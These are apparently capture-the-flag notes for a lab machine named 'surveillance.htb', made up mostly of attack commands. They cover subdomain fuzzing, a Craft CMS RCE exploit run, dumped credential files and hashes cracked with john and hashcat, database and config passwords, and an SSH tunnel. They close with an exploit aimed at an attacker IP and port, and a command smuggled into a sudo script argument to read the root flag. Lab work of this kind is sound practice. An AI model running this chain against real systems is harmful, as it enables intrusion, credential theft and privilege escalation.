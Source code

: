 # ip
10.10.11.245

# wfuzz subdomains
wfuzz --hh 154 -c -w ../../SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "HOST:FUZZ.surveillance.htb" http://surveillance.htb

# rce cve-2023-41892
python3 craft-cms.py http://surveillance.htb

# etc/passwd
matthew:x:1000:1000:,,,:/home/matthew:/bin/bash
mysql:x:114:122:MySQL Server,,,:/nonexistent:/bin/false
zoneminder:x:1001:1001:,,,:/home/zoneminder:/bin/bash
fwupd-refresh:x:115:123:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false

# user
matthew
zoneminder

# version
"craftcms/cms": "4.4.14"

# hash matthew
39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec

# john command hash
john --format=raw-sha256 hash --wordlist=../../../rockyou.txt

# password matthew
starcraft122490

# ssh connection
ssh matthew@surveillance.htb -p 22

# zm file create zoneminder user
cat /etc/init.d/zoneminder

# info .env mysql
The secure key Craft will use for hashing and encrypting data
CRAFT_SECURITY_KEY=2HfILL3OAEe5X0jzYOVY5i7uUizKmB2_

# Database connection settings
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craftdb
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftCMSPassword2023!
CRAFT_DB_SCHEMA=
CRAFT_DB_TABLE_PREFIX=

cat .env

# mysql command
mysql -u craftuser -p
use craftdb;
show databases;
show tables;
describe users;
select username, email, password, id, admin, fullName from users;

# mysql pass hash admin
admin@surveillance.htb
$2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe

# hashcat bcrypt
hashcat -m 3200 -a 0 hash_mysql ../../../rockyou.txt

# zm creds
cat /usr/share/zoneminder/www/api/app/Config/database.php

'datasource' => 'Database/Mysql',
                'persistent' => false,
                'host' => 'localhost',
                'login' => 'zmuser',
                'password' => 'ZoneMinderPassword2023',
                'database' => 'zm',
                'prefix' => '',
                //'encoding' => 'utf8',

# hash password zm
$2y$10$BuFy0QTupRjSWW6kEAlBCO6AlZ8ZPGDI8Xba5pi/gLr2ap86dxYd.

# connection tunnel ssh reverse zm
ssh -L 2222:127.0.0.1:8080 matthew@10.10.11.245

# connection ssh zoneminder user
python3 main.py -u http://localhost:2222 -i 10.10.14.15 -p 4444

# root flag
sudo /usr/bin/zmupdate.pl -v 1.19.0 -u ';cat /root/root.txt;'